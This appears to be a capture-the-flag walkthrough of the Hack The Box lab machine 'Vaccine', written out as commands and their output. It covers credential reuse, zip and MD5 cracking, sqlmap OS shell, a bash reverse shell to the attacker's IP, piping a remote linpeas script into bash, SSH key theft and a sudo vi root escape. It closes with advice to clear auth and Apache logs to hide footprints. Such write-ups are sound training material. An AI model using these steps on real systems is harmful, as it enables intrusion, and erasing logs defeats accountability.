 ```yaml
---
title: HTB - Vaccine Walkthrough
date: 2021-08-09 16:47:03
tags: [WalkThrough, HTB, Penetration Testing, Starting Point]
---
```


# Enumeration
```
nmap -p- --min-rate=1000 -T4 10.10.10.46 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$// >> ports.txt
nmap -sC -sV -p`cat ports.txt` 10.10.10.46

PORT      STATE  SERVICE VERSION
21/tcp    open   ftp     vsftpd 3.0.3
22/tcp    open   ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp    open   http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
48866/tcp closed unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

It seems the port 80 is open, lets take a look

There's a login page

try the previous credentials, does not work, try sql, not work

# FTP login
ftp is open, use the credentials from oopsie:

```
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
```

we get a backup.zip file, try to unzip it, but it is password protected

try to crack it use john

# Crack zip file 
```
zip2john backup.zip > hash
```
crack use rockyou wordlist
```
john hash --fork=4 -w=~/wordlist/rockyou.txt
john hash --show
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip
```

password found `741852963`

then unzip the file, cat `index.php`


```
if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {

```
then crack md5 2cb42f8734ea607eefed3b70af13bbd3

using an online rainbow table such as [crackstation](https://crackstation.net/)

find password `qwerty789`

# login web

found a potential sql injection 
```
ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%Elixir' or 'a'='a%' ^
```

use sqlmap
```
set cookie: PHPSESSID=rcmb87pnl11jpe70f1d99euamr

sqlmap -u 'http://10.10.10.46/dashboard.php?search=query' --cookie='PHPSESSID=rcmb87pnl11jpe70f1d99euamr' --os-shell
```

upgrade the dbshell to bash shell
```
nc -nvlp 4444
bash -c 'bash -i >& /dev/tcp/10.10.14.75/4444 0>&1' 
```

```
SHELL=/bin/bash script -q /dev/null
```

in /var/www/html/dashboard.php
```
conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```

we could also steal the ssh private key, it is in: `/var/lib/postgresql/.ssh`

```
chmod 600 id_rsa
ssh -i id_rsa postgres@10.10.10.46
```

get the best ssh shell


Linux Privilege Escalation Awesome Script:
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

```
python3 -m http.server 8080
curl http://10.10.14.75:8080/linpeas.sh | bash

══════════╣ Finding 'username' string inside key folders (limit 70)
/var/www/html/index.php:    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
/var/www/html/index.php:        <input id="login__username" type="text" name="username" class="form__input" placeholder="Username" required>


╔══════════╣ Finding passwords inside key folders (limit 70) - only PHP files
/var/www/html/dashboard.php:	  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
/var/www/html/index.php:    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
/var/www/html/index.php:        <input id="login__password" type="password" name="password" class="form__input" placeholder="Password" required>

```

check `sudo -l` list all available command can be run

a useful link： https://gtfobins.github.io/gtfobins/


```
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
```
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
:!/bin/bash 
```

get the root

# Cover
```
/var/log/auth.log
/var/log/apache2/access.log
```
remove your footprints


